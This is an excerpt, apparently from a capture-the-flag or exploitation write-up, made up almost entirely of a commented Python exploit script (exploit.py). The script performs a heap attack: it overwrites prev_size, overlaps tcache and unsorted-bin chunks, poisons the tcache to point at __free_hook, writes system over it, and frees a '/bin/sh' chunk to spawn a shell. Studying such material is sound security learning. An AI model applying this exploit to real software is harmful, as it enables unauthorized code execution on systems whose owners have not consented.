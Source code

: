 ```python
c = create(0x18, b"A"*0x10 + pack(0x50)) # Overwrite "prev size" field of large chunk

free(c) # Let c be in both tcache and overlapped in unsortedbins
free(d) # Consolidate backwards with fake chunk into unsortedbins

# Allocate the consolidated chunk which overlaps with the tcache chunk "c"
create(0x548, b"A"*0x28 + pack(0x21) + pack(libc.sym.__free_hook))

# Allocate a chunk containing "/bin/sh", so that we can free it later to get a shell
binsh = create(0x10, b"/bin/sh\x00")

# Overwrite __free_hook with system
create(0x10, pack(libc.sym.system))

# Call free on the chunk containing "/bin/sh", which because of our overwrite will call system("/bin/sh")
free(binsh)

# Enjoy the shell!
io.interactive()
```
{: file="exploit.py" }
